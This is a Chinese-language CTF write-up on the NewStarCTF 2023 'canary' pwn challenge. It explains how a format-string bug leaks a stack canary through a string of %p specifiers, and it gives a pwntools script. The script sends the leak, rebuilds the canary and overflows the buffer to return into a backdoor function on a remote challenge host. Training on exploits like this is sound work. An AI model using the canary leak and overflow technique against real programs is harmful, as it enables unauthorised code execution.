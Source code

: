 ```yaml
---
title: canary
tags: [ctf-pwn,stack]
date: 2023-10-11 11:15:00
categories: [ctf-pwn]
excerpt: canary格式化字符串漏洞
---
```


### canary泄露

NewStarCTF 2023 canary：

![](/img/canary/1.jpg)

`__readfsqword(0x28u)`说明添加了canary，但是第一次输入只能输入32字节，距离把canary一块printf出来差了8字节，因此用格式化字符串漏洞把canary打印出来。



`printf`的参数中，rdi为第一次输入的格式化字符串，然后需要5个%p把rsi，rdx，rcx，r8，r9略过，然后再来6个%p（因为后面的参数在栈上，而canary是栈上第41-48字节，需要第六个%p才能将其打印出来）



然后第二次输入就是一个最简单的rop链了



```python
from pwn import *
from LibcSearcher import *
#p = process("./canary")
p = remote("node4.buuoj.cn", 28964)
e = ELF("./canary")
context.log_level="debug"

backdoor = e.sym["backdoor"]

payload = b"%p%p%p%p%p%p%p%p%p%p%p"

p.sendlineafter(b"Give me some gift?\n", payload)


p.recvuntil(b"Oh thanks,There is my gift:\n")

leak = p.recvline()

canary = eval(leak[-19:-1])

print(hex(canary))


p.recvuntil(b"Show me your magic\n")


payload = b'a' * 40 + p64(canary) + p64(0) + p64(backdoor)
p.sendline(payload)

p.interactive()
```

